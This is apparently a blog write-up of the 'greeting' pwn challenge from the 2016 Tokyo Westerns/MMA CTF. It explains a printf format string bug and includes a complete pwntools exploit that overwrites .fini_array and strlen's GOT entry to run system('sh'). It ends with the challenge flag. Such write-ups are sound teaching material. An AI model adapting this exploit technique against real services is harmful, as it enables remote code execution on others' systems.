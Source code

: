 ```yaml
---
title: MMA 2nd CTF 2016 -- greeting
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- MMA
- CTF
- format_string
- Python
- Pwnable
categories:
- write-ups
date: '2016-09-12 15:49:00 +0000'
---
```


**Category:** pwn
**Points:** 150  

<!-- more -->  
  
After a long period of time without playing any CTF, I finally finished my master's degree and have time to enjoy some CTF challenges. And then there is the **Tokyo Western/MMA 2nd CTF**, the first CTF I played in 2016.  
  
The challenge gave us a 32 bit ELF. The program will first use `system` to echo some message, then it will ask us to input our name, and print the greeting message. We can see that there exist a format string vulnerability in the main function:  
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    int result; // eax@2
    int v4; // edx@4
    int v5; // [sp+1Ch] [bp-84h]@2
    int v6; // [sp+5Ch] [bp-44h]@1
    int v7; // [sp+9Ch] [bp-4h]@1

    v7 = *MK_FP(__GS__, 20);
    printf("Please tell me your name... ");
    if ( getnline((char *)&v6, 64) )
    {
        sprintf((char *)&v5, "Nice to meet you, %s :)\n", &v6);
        result = printf((const char *)&v5); // <-- format string 
    }
    else
    {
        result = puts("Don't ignore me ;( ");
    }
    v4 = *MK_FP(__GS__, 20) ^ v7;
    return result;
}
```

As we can see that the program ends directly after it print out the greeting message, so it's kind of hard for us to do the GOT hijacking attack. After discussing with my teammate, we found that there's one more place we can overwrite the function pointer: **the `.fini_array` section**.  
  
So, we can first overwrite the **first entry** of the `.fini_array` section and hijack the control flow. Notice that we can only input 64 bytes characters, and that's kind of hard for us to write both `system`'s address and `sh`'s string into the memory buffer. Here's what we can do :  
  
* Overwrite both `.fini_array` section and `strlen`'s GOT entry. We replace the first entry of the `.fini_array` section into **main function's address**, while `strlen`'s GOT entry be changed into `system`'s PLT.  
* The program will then return to the main function. Since `strlen`'s GOT has already been changed into `system`'s address, we can then input `sh` and execute `system("sh")` during the `getnline` function (the function will call `strlen` on our input).  

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "pwn2.chal.ctf.westerns.tokyo"
PORT = 16317
ELF_PATH = "./greeting"
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def fmtstr(payload, prints, index, data, byte=1):
    """
    data: data that want to be written into the address
    index: stack position (ex. %7$n --> index = 7)
    prints: total charaters that have been print out
    payload: whole payload string, initial value are addresses

    ex.  payload = p32(addr) + p32(addr2) + p32(addr3)
         prints = 12
         payload, prints = fmtstr(payload, prints, 7, 0xa0a0, 2)
         payload, prints = fmtstr(payload, prints, 8, 0xc0, 1)
         payload, prints = fmtstr(payload, prints, 9, 0x08047654, 4)
    """

    if data - prints > 0:
        num = data - prints
    else:
        num = data + 256**byte - prints
        while(num <= 0):
            num += 256**byte
    
    payload += "%" + str(num) + "c" 
    prints = data

    if byte == 1:
        payload += "%" + str(index) + "$hhn"
    elif byte == 2:
        payload += "%" + str(index) + "$hn"
    elif byte == 4:
        payload += "%" + str(index) + "$n"
    elif byte == 8:
        payload += "%" + str(index) + "$lln"

    return payload, prints

def fmtstr_scan(cnt):
    return '.'.join( "%"+str(i)+"$p" for i in xrange(1,cnt+1))

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    payload = "AA"+p32(0x08049934) + p32(elf.got['strlen']) + p32(elf.got['strlen']+2) 
    prints = len(payload) + 18
    payload, prints = fmtstr(payload, prints, 12, 0x85ed, 2)
    payload, prints = fmtstr(payload, prints, 13, 0x8490, 2)
    payload, prints = fmtstr(payload, prints, 14, 0x0804, 2)
    print payload
    print len(payload)

    r.sendlineafter("... ", payload)
    r.sendlineafter("... ", "sh\x00")

    r.interactive()
```
  
flag: `TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}`